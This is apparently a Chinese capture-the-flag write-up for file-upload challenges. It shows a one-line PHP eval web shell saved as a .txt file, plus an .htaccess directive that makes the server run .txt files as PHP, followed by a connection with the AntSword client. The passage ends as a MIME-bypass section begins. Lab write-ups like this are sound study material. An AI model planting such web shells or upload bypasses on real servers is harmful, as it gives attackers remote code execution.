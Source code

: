 ![](images/timu.png)

### 解题

查看源码发现有一堆不能上传的文件后缀

![](images/yuanma-1.png)

题目中有提示，上网搜了下htaccess

> .htaccess文件(或者"[分布式](https://so.csdn.net/so/search?q=%E5%88%86%E5%B8%83%E5%BC%8F\&spm=1001.2101.3001.7020)配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。
>

创建一个er.txt的文件，写入

```php
<?php @eval($_POST["ctf"]);?>

```

创建一个.htaccess的文件，写入

```php
AddType application/x-httpd-php .txt
```

作用：服务器会将所有扩展名为 **`.txt`** 的文件当&#x4F5C;**&#x20;PHP 脚本进行处理**

将文件上传上去，接着使用蚁剑连接

![](images/lianjien.png)

![](images/1-1.png)

![](images/2-1.png)

### 吐槽

当开始以为.htaccess是个文件后缀，需要有文件名，于是建了个cc.htaccess的文件上传上去，结果怎么都连接不上，折腾了半小时，后来才发现.htaccess就是个文件

## MIME绕过

### 题目：

![](images/tm.png)

![](images/tm2.png)

### 解题

MIME？先搜一下
